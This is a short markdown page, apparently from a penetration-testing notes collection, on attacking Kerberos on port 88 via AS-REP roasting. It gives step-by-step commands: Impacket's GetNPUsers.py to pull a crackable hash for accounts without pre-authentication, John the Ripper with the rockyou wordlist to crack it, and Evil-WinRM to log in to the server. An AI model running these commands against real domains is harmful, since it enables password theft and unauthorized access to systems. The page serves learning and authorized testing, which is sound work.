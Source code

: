 # Kerberos Pre-authentication: Port 88

If Kerberos pre-authentication is disabled for an account, it could be vulnerable to [ASREPRoasting](https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/). 

1. Use [Impacket](../../Network/Network/impacket_tools/README.md)'s `GetNPUsers.py` script to obtain a TGT ticket

        GetNPUsers.py domain.local/username -request -no-pass -dc-ip 10.10.10.4

2. Save the obtained hash value in a file, and crack it using a [password cracking tool](../../Linux/password_guessing/README.md) 

        $ sudo john ./kb_preauth_hash.txt --wordlist=./rockyou.txt
        $ sudo john --show ./kb_preauth_hash.txt

3. Access the server using [Evil-WinRM](../winrm_5985/README.md)

## References

* https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/